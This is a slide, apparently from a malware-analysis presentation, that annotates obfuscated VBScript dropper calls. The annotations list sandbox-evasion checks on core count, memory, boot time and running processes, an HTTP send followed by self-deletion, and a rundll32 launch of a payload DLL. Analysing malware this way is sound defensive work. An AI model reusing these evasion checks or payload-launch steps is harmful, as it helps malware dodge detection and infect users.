

# What do the rest of the obfuscated code blocks do?
execute(limpet(yEE)):    	 REM QSV() - FS_FCC - checks number of cores (< 3)
execute(limpet(rgmzwbIle)):    REM Zme() - FS_CM - checks physical memory (< 1030 MB)
execute(limpet(GVRjBk)):    REM Ldj() - http.send, delete VBS, end the script
execute(limpet(HUYcmaiVH)):    REM numb() - FS_PROCESS - if running this other process, quit
execute(limpet(zwGzBJ)):    REM ERa() - F_RUN - "rundll32" + " " + sandhill + "racial.drc,DllRegisterServer"
execute(limpet(VImQhn)):    REM hydrothermal() - F_UNZIP  -
execute(limpet(ApqG)):   	 REM TdJb() - FS_CLB - checks LastBootUpTime
execute(limpet(HHSutZ)):    REM RGOD() - FS_TD1 -